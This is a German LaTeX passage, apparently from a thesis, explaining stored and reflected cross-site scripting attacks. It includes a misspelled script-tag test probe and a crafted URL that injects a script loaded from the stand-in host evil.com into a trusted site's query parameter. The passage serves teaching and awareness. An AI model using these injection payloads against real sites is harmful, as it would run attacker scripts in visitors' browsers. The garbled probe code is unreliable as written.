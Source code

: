 Durch diese Zeile JavaScript Code im Kommentarfeld wird nun jedes Mal, wenn diese Seite geladen wird, das Skript, welches auf evil.com gehostet wird, ausgeführt.

Diese Art von XSS Angriff kann eine große Menge an Opfer finden, denn verteilt man den Link von der angeblich sicheren Seite, gefährdet dies jeden Besucher, ganz egal wie Vorsichtig dieser sonst auch ist.

Aus der Sicht von Bob, ist es um einiges schwieriger eine dauerhafte XSS Attacke durchzuführen, weil er nicht nur eine Schwachstelle in der Web-Anwendung finden muss, sondern auch eine Web-Anwendung, welche einen großen Pool an Nutzern hat. Stimmen jedoch diese zwei Punkte überein, kann sehr großflächiger Schaden entstehen.

\footnote{\url{https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/}}


\subsection{Reflected oder Non-Persistent Attacken}
\label{subsection:reflective attacks}

Eine reflected XSS Attacke ist im Vergleich zu einer stored XSS Attacke in diesem Sinne anders, als dass sie von einer Web-Anwendung reflektiert wird, und nicht dauerhaft ist. Bei so einem Angriff wird der schadhafte JavaScript Code nur etwa durch einen Link ausgelöst.
Um dies zu erreichen wird meist ein Link zu einer Web-Anwendung mit Schwachstellen erstellt, in welcher der schadhafte JavaScript Code in einer E-Mail oder in einem HTML form Element eingebunden wird. Um solche Schwachstelle in einer Web-Anwendung zu finden, wird beispielsweise in einem Suchfeld
\begin{lstlisting}[
	label={},
	float=h,
	language=html,
	xleftmargin=0.5em,
	framexleftmargin=0.5em,
	tabsize=2,
	numbers=none
]
<scrip type="text/javascript">aler(XSS detected)</script>
\end{lstlisting}

ausgeführt und untersucht, ob dieser JavaScript Code vom Web-Browser als solcher interpretiert und ausgeführt wird, oder nicht.
Wird diese Popup ausgeführt, der Skripttext in der URL angezeigt oder wird im Web-Browser auf die Seite verwiesen und ein not found zurückgegeben, weiß der Angreifer, dass diese Seite anfällig ist.

Im nächsten Schritt erstellt er eine eigene URL und verpackt diese in einen Link welcher in einem Forum oder einem sozialen Netzwerk geteilt wird.
\begin{lstlisting}[
	label={},
	float=h,
	language=html,
	xleftmargin=0.5em,
	framexleftmargin=0.5em,
	tabsize=2,
	numbers=none
]
http://trusted.com?q=news<script%20src="http://evil.com/evil.js"
\end{lstlisting}

